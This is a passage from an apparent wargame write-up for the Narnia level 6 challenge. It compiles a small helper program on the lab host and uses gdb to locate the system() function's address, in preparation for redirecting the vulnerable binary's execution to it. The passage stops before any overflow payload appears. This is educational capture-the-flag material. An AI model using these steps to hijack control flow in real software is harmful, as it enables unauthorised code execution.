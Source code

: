Seeing as we can ssh into the target machine with credentials that we have received from the previous task, we can compile this same code on the target system to determine the location of the system function in memory (in other words, we do not have to leak the system function’s address). Using this address, we can point the address of the narnia6 binary to the system function and pass a command to it.

#### Determining System Address

First, we must compile the program in 32 bit format as follows:

{% highlight bash %}
narnia6@narnia:/tmp/poc$ gcc -m32 poc.c -o poc  
narnia6@narnia:/tmp/poc$ ./poc  
total 276drwxr-sr-x    2 narnia6 root   4096 May 11 18:15 .  
drwxrws-wt 2040 root    root 262144 May 11 18:15 ..  
-rwxr-xr-x    1 narnia6 root   7460 May 11 18:15 poc  
-rw-r--r--    1 narnia6 root     84 May 11 18:15 poc.c
{% endhighlight %}

After doing so, we can start debugging the program with gdb:

{% highlight bash %}
narnia6@narnia:/tmp/poc$ gdb -q ./poc                                                  
Reading symbols from ./poc...(no debugging symbols found)...done.  
(gdb) b *main                                                                                                                                                        
Breakpoint 1 at 0x5a0                                                                 (gdb) r                                                                                
Starting program: /tmp/poc/poc                                                          
                                           
Breakpoint 1, 0x565555a0 in main ()        
(gdb) disass main                      
Dump of assembler code for function main:  
=> 0x565555a0 <+0>:     lea    0x4(%esp),%ecx                                          0x565555a4 <+4>:     and    $0xfffffff0,%esp                    0x565555a7 <+7>:     pushl  -0x4(%ecx)  0x565555aa <+10>:    push   %ebp        0x565555ab <+11>:    mov    %esp,%ebp                                                0x565555ad <+13>:    push   %ebx                                                    0x565555ae <+14>:    push   %ecx        0x565555af <+15>:    call   0x565555dc <__x86.get_pc_thunk.ax>                      0x565555b4 <+20>:    add    $0x1a4c,%eax  0x565555b9 <+25>:    sub    $0xc,%esp  0x565555bc <+28>:    lea    -0x19a0(%eax),%edx                                      0x565555c2 <+34>:    push   %edx                                                    0x565555c3 <+35>:    mov    %eax,%ebx    0x565555c5 <+37>:    call   0x56555400 <system@plt>                                  0x565555ca <+42>:    add    $0x10,%esp                                              0x565555cd <+45>:    mov    $0x0,%eax  0x565555d2 <+50>:    lea    -0x8(%ebp),%esp                                          0x565555d5 <+53>:    pop    %ecx                                                    0x565555d6 <+54>:    pop    %ebx        0x565555d7 <+55>:    pop    %ebp      0x565555d8 <+56>:    lea    -0x4(%ecx),%esp  0x565555db <+59>:    ret       End of assembler dump.            
{% endhighlight %}

Now with a breakpoint at main, we can see all of the corresponding addresses to each assembly instruction. Most notably, system call is at 0x565555c5,so it follows that we should set a breakpoint there.

{% highlight bash %}
(gdb) b *0x565555c5               Breakpoint 2 at 0x565555c5(gdb) c  
Continuing.  
  
Breakpoint 2, 0x565555c5 in main ()  
(gdb) x/s $edx  
0x565555c5:     "ls -la"
{% endhighlight %}
